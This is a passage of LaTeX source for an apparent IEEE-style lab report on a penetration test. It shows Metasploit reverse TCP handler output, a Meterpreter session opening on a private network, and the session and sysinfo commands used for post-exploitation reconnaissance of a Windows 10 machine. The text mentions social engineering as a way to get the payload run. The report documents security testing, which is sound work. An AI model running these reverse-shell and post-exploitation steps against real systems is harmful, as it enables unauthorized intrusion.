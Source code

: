 \documentclass[journal,twoside]{IEEEtran}
\begin{document}
This configuration established a listener on the attack machine to receive the connection from the target system when the payload is executed.

\subsection{Exploitation Results}
When the payload was executed on the target system (through social engineering or other means), a Meterpreter session was successfully established. The connection details were displayed as:

\begin{verbatim}
[*] Started reverse TCP handler on 192.168.136.128:4444
[*] Sending stage (175174 bytes) to 192.168.136.1
[*] Meterpreter session 1 opened (192.168.136.128:4444 -> 
    192.168.136.1:55202)
\end{verbatim}

\subsection{Post-Exploitation Activities}
After establishing the connection, we interacted with the session using:

\begin{verbatim}
msf6 exploit(multi/handler) > sessions -i 1
\end{verbatim}

This provided access to the Meterpreter shell, where various commands were executed to demonstrate the level of access obtained.

\subsubsection{System Information Gathering}
The \texttt{sysinfo} command revealed detailed information about the target system:

\begin{verbatim}
meterpreter > sysinfo
Computer        : DESKTOP-8L8LKMM
OS              : Windows 10 (10.0 Build 19043)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
\end{verbatim}

\subsubsection{Network Information Gathering}
We obtained network information using various commands, revealing the target's IP addresses, MAC addresses, and network interfaces.
\end{document}
